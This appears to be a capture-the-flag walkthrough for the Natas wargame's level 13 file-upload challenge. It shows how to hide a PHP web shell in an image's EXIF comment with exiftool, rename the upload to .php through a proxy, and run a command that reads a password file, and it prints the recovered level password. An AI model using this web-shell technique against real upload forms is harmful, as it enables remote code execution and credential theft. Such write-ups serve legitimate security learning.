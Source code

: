 
> Viewing the source code for uploading files, we see that it validates the file type by checking the `exif_imagetype` of the file.
> Basically, it checks the metadata of the file, and if the signature it gets doesn't match that of an image, it is rejected.

![](./screenshots/natas13_1.png)

> To bypass this, we can use the `exiftool` on an image to embed the `php` code inside the image as a comment.

``` bash
exiftool -comment='<?php echo system($_GET['command']);?>' pic.jpeg
```
> Get the value of the query parameter `command` and execute it as shell command.

> Now we if we upload this file, we see that it is uploaded as a `.jpeg` file which won't execute.

![](./screenshots/natas13_2.png)

> Therefore, we should capture the request being sent through BurpSuite proxy, and modify the uploaded file to be of a `.php` format.

![](./screenshots/natas13_3.png)

> Now if we forward, we see that the file was uploaded as `.php`.

![](./screenshots/natas13_4.png)

> Now if we access this file, and give the query parameter `command` with the command:

```
cat /etc/natas_webpass/natas14
```

![](./screenshots/natas13_5.png)

```
natas14:qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```

---
